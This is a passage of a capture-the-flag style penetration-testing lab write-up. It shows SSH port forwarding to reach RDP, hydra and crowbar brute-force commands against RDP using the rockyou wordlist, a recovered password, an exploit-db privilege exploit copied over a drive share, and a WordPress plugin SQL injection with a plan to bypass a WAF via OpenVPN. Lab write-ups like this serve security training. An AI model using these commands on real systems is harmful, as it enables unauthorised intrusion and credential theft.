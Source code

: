 ```
Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 3 IP addresses (3 hosts up) scanned in 30.36 seconds
You have new mail in /var/mail/tech
```

We see that ms-wbt-server is active in the subnet. However, we cannot rdesktop on it on tech as we want to do it on our host (Kali Linux) machine. However, we cannot simply SSH to those IP as we do not have access through our host. Instead, we need to do SSH tunneling through tech and forward the traffic to our host for RDP access on those IP addresses, 192.168.13.1-3. To do this:

```
root@kali:~# ssh -L 3389:192.168.13.2:3389 -i ~/test/privkey tech@192.168.101.11 -p 2222
(in another terminal)
root@kali:~# rdesktop localhost -u ""
```

We don't have credentials for any of the arm users, which is authenticated by the kerboros protocol. But, now we have information about the users from 192.168.13.1-3 which are arm554, arm550 and arm672. We can then bruteforce this with hydra or 

```
hydra -t 8 -v -l arm554 -P /usr/share/wordlists/rockyou.txt rdp://127.0.0.1
or
crowbar -b rdp -u arm554 -C /usr/share/wordlists/rockyou.txt -s 127.0.0.1/32 -v

arm554:tiger

We can run a enumeration script and find an exploit https://www.exploit-db.com/exploits/39719/, we can move this exploit accross by:
root@kali:~# rdesktop -u arm554 -r disk:share=/root/Downloads/ 127.0.0.1 

We can find the token in the users folder. Before leaving, we explore the other files and keep:

C:\Users\user\Old test.lab users\arm440>type "New Text Document.txt"
F12A08F680CD09E4194D463C8AE6DA0C
```

### Site Token

`192.168.101.10:80` gives a word press, we can see it uses kittycatfish plguin from the source code. wpscan is blocked, probably because of WAF. We do a searchsploit of the plugin to find an SQL injection exploit, https://www.exploit-db.com/exploits/41919/.

We notice that http://192.168.101.10/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=15, altering kc_ad=15 results in changing the css code to say TRUE/FALSE. E.g. left: 50%; is sometimes : px;. Running sql map gets access forbidden 403. I reckon we need to bypass the WAF.

Going back to the tech terminal, we check for running processes and programs `ps -aux and dpkg-query -l`. There is OpenVPN again, looking at https://lab.pentestit.ru/images/labs/TL11_map.png, it is possible that 192.168.101.11 is using OpenVPN to connect to 192.168.101.10 via port 1194. So, if we can establish a VPN connection to 192.168.101.10, we can bypass the WAF protecting SITE, 172.16.0.11.


```
tech@tl11-gw-2:~$ cd /etc/openvpn/
tech@tl11-gw-2:/etc/openvpn$ ls
server.conf  update-resolv-conf
tech@tl11-gw-2:/etc/openvpn$ cat server.conf
client
dev tun
proto tcp
remote 192.168.101.10 1194
remote-cert-tls server

#####
#ping 3
#ping-restart 60
#####
```